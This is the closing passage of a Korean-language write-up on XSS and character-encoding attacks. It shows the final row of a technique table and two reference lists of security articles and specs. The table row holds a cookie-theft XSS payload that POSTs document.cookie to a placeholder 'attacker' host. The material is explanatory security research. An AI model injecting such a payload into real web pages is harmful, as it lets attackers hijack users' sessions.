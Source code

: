       <td><code>&lt;script&gt;fetch('https://attacker',{method:'POST',body:document.cookie})&lt;/script&gt;</code></td>
      <td>fetch/XHR 이용해 민감 데이터(쿠키, 저장소 등) 전송</td>
      <td>[E]</td>
    </tr>
  </tbody>
</table>

## 분류에 해당하는 문서

\[1] [Encoding Differentials: Why Charset Matters](https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters/)
\[2] [https://troopers.de/troopers24/talks/r3hxdq/](https://troopers.de/troopers24/talks/r3hxdq/)
\[3] [https://html.spec.whatwg.org/multipage/](https://html.spec.whatwg.org/multipage/)
\[4] [https://www.rfc-editor.org/rfc/rfc1468.html](https://www.rfc-editor.org/rfc/rfc1468.html)
\[5] [https://www.sonarsource.com/blog/mxss-the-vulnerability-hiding-in-your-code/](https://www.sonarsource.com/blog/mxss-the-vulnerability-hiding-in-your-code/)

## 기타 참고문헌

\[A] [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#utf-7](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#utf-7)
\[B] [https://blog.elmosalamy.com/posts/bom-sniffing-to-xss/](https://blog.elmosalamy.com/posts/bom-sniffing-to-xss/)
\[C] [https://www.yeswehack.com/learn-bug-bounty/xss-attacks-exploitation-ultimate-guide](https://www.yeswehack.com/learn-bug-bounty/xss-attacks-exploitation-ultimate-guide)
\[D] [https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)
\[E] [https://www.securitum.com/persistent\_threats\_via\_blind\_xss.html](https://www.securitum.com/persistent_threats_via_blind_xss.html)
